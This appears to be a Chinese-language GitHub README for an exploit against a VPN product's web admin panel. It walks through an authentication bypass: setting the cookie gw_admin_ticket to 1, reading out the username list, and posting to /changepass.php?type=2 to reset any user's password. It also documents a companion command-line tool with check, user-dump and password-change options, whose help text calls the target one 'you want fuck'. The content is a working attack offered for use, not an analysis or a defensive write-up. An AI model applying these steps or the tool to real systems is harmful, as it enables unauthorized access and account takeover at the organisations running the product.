






# 1.**复现**

1.使用cookie editor插件添加cookie值gw\_admin\_ticket为1.



2.使用charset插件修改网页编码为utf-8使页面正常显示



3.获取到用户名信息.



4.使用hackbar对地址/changepass.php?type=2发送修改密码数据,并将cookie值修改为如下，this_name为你需要修改密码的用户名称.





5.返回修改密码成功.可能会提示密码强度不够可以尝试随机生成字符串来生成。



# 2.工具使用

1.下载对应系统版本工具

```shell
./VPN_linux_amd64 -h                                 
Usage of VPN_linux_amd64:
  -c    check target vuln.(default) (default true)
  -e    change user's password.
  -p string
        manual set password you want change.(default is generate by random.) (default "BpLnfgDsc3WD")
  -t int
        request timeout default is 5 second. (default 5)
  -u string
        target you want fuck.(example:https://xxxxx:xxx)

```

2.参数介绍

| 参数 | 含义                                                  |
| ---- | ----------------------------------------------------- |
| c    | 检测模块，默认启用，存在漏洞的话会输出目标的用户列表. |
| e    | 修改密码模块，默认不启用.                             |
| p    | 更改后的密码，默认随机生成.                           |
| t    | 请求超时时间，默认为5s.                               |
| u    | 需要检测的目标url地址,.                               |


